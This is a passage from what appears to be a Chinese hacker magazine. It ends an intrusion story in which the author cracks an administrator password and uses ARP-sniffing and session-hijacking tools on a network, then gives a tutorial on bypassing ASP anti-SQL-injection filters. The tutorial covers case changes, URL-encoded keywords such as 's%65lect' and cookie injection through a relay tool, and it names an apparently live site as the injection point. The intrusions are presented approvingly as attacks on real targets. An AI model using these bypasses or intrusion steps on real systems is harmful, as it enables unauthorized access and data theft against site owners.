拿到 3389 了，咖啡立马建议我拿到 admin，我感觉也是，不然不安全。拿出 SAMinside 在 4 核的强大作用下，暴力破解了一会儿就有结果了，很容易地拿到了 admin 的密码。看起来很有规律 syxy55。我开始 SSH 登录其它的服务器，结果让人还是很郁闷，没有一个可以成功登录的，于是就在 CMD 下“arp -a”了下结果，让我有点纳闷，竟然就只有一个 DNS 服务器和网关。我就不信了，于是搞出 CAIN 扫描本网段，可以扫出来其它的主机，可是什么都嗅探不到，不知什么原因，我又尝试使用 zxsrps.exe 等众多的 ARP 嗅探软件，结果还是很让人失望。


如图18，还是没找到问题的所在。难道就这样没戏了？我真的不甘心，经过一阵子的寻找我……

又找到了两款新的软件 SSClone1210 和 MaxHijack.exe，前者可以克隆 SESSION……于是就拿出 AntiSwitch.exe 直接向网关开火了……我的一次艰难又曲折的入侵就到这里结束了……（文中涉及到的软件已收录于光盘中）

### 注入中的“绕”

夜虫儿

目前为止，注入仍然是网络攻击中最常用的一种手段……下面就让我们一起来讨论一下，如何突破这些防注入系统。最常见的就是使用“or”来突破一些防注入系统……我们就以 XX 攻防大赛第二关的比赛程序来说吧……

```
OldSmallClassName=trim(request.form("OldSmallClassName"))
EnSmallClassName=trim(Request.form("EnSmallClassName"))
OldEnSmallClassName=trim(request.form("OldEnSmallClassName"))
if SmallClassID="" then
  response.Redirect("ClassManage.asp")
end if
```

这里只对 and、or、xor、select 做了简单的过滤，但是程序在判断提交过来的数据是否合法时，却没有对数据的大小写做转换……当输入“and 1=1”时返回错误，而输入“And 1=1”时返回正确页面，如图2。


我们在此基础上给它简单地做一个过滤，代码如下：

```
dim SmallClassID,Action,BigClassName,SmallClassName,OldSmallClassName,rs
SmallClassID=trim(Request("SmallClassID"))
SmallClassID=replace(SmallClassID,"and","")
SmallClassID=replace(SmallClassID,"xor","")
SmallClassID=replace(SmallClassID,"or","")
SmallClassID=replace(SmallClassID,"select","")
Action=trim(Request("Action"))
BigClassName=trim(Request.form("BigClassName"))
SmallClassName=trim(Request.form("SmallClassName"))
```


绕过这个防注入系统了，下面再来看网上的一段防注入程序，代码如下：

```asp
<%
Dim Fy_Url,Fy_a,Fy_x,Fy_Cs,Fy_Cl,Fy_Ts,Fy_Zx
Fy_Cl=2
Fy_Zx="error.asp"
On error resume next
Fy_Url=request.serverVariables("QUERY_STRING")
Fy_a=split(fy_Url,"&")
Redim Fy_Cs(ubound(Fy_a))
On error resume next
For Fy_x=0 to ubound(Fy_a)
  Fy_Cs(Fy_x)=left(Fy_a(Fy_x),instr(Fy_a(Fy_x),"=")-1)
Next
For Fy_x=0 to ubound(Fy_Cs)
  if Fy_Cs(Fy_x)<>"" Then
    If Instr(LCase(Request(Fy_Cs(Fy_x))),"'")<>0 or _
       Instr(LCase(Request(Fy_Cs(Fy_x))),"and")<>0 or _
       Instr(LCase(Request(Fy_Cs(Fy_x))),"select")<>0 or _
       Instr(LCase(Request(Fy_Cs(Fy_x))),"update")<>0 or _
       Instr(LCase(Request(Fy_Cs(Fy_x))),"chr")<>0 or _
       Instr(LCase(Request(Fy_Cs(Fy_x))),"delete%20from")<>0 or _
       Instr(LCase(Request(Fy_Cs(Fy_x))),"insert")<>0 or _
       Instr(LCase(Request(Fy_Cs(Fy_x))),"mid")<>0 or _
       Instr(LCase(Request(Fy_Cs(Fy_x))),"master.")<>0 Then
      Select Case Fy_Cl
      Case "1"
        Response.Write "<script>alert('参数'&Fy_Cs(Fy_x)&'不存在')</script>"
      Case "2"
        Response.Write "<script>location.href='" &Fy_Zx&"'</script>"
      Case "3"
        Response.Write "<script>alert('参数'&Fy_Cs(Fy_x)&'不存在');location.href='" &Fy_Zx&"'</script>"
      End Select
      Response.End
    End if
  End if
next
%>
```

“1=1”的时候，网站提示了如下信息：


这个是我们在入侵过程中比较常见的一套防注入代码，先手工判断一下，确定存在 cookie 注入，然后使用注入中转工具，按照图3所示的形式填写好各个地方，点击“生成ASP”，然后在本地架设一个 IIS，如图4。


对于这段代码，过滤了很多常用的字符：and、select、update、chr 等，代码看起来过滤得很严格，但是问题就出在 `Fy_Url=request.serverVariables("QUERY_STRING")` 接受数据这里。这里接受来的数据也并没有做任何处理，虽然后面使用了过滤，但是我们只要将过滤的字符使用编码就可以轻松绕过，比如“select”，我们可以写成“s%65lect”，这时候程序就不认识了。

另一个绕过防注入的方法就是使用 cookie 注入，关于 cookie 注入的原理和手工注入的方法，我已经在本期的“从零开始学脚本分析”一文中介绍过了，下面我再来介绍一下怎样使用工具来进行 cookie 注入。

我们以“http://www.zhongwy.com/ProductShow.asp?ID=216”这个注入点为例，当我们在网址后面输入“and 1=1”的时候，网站提示了如上信息。

把这个注入点放到注入工具中就可以注入了，如图5。这样我们就又一次轻松地突破了这个注入点。绕过防注入的方法还有很多，这里我就不一一给大家演示了，其实也都是在防注入代码过滤不严这方面做文章，只是大同小异罢了。如果大家还有什么疑问，欢迎到黑客 X 档案论坛来和我讨论，文中不足的地方还请大家多多指教。

> （文章中涉及到的注入中转生成器已经收录在了光盘中）